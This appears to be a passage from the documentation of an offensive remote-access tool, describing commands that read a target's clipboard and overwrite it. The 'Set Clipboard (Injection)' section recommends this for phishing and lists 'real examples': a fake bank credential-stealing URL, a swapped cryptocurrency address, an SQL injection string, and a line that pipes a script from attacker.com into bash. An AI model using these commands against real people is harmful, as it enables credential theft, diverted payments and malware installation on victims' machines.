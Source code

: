 - Retrieves current clipboard content
- Does NOT start monitoring
- Does NOT log the content

**Response:**

```
[+] Latest clipboard content (42 chars):
This is some sensitive text from clipboard
```

**Use case:**

- Quick clipboard check
- Verify what user just copied
- Test clipboard access
- One-time retrieval without logging

---

### Set Clipboard (Injection)

```bash
clipboard_set <text>
```

**What happens:**

- Sets target's clipboard to your text
- User will paste YOUR content next
- Perfect for phishing and injection attacks

**Example:**

```bash
clipboard_set https://fake-bank-login.com
```

**Response:**

```
[+] Clipboard set to: https://fake-bank-login.com
```

**Attack scenarios:**

- Replace legitimate URLs with phishing links
- Inject malicious commands
- Replace cryptocurrency addresses
- Social engineering attacks

**Real examples:**

```bash
# Replace bank URL
clipboard_set https://fake-bank.com/steal-credentials

# Inject malicious command
clipboard_set curl http://attacker.com/malware.sh | bash

# Replace crypto address
clipboard_set 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa

# Inject SQL injection payload
clipboard_set ' OR '1'='1
```

---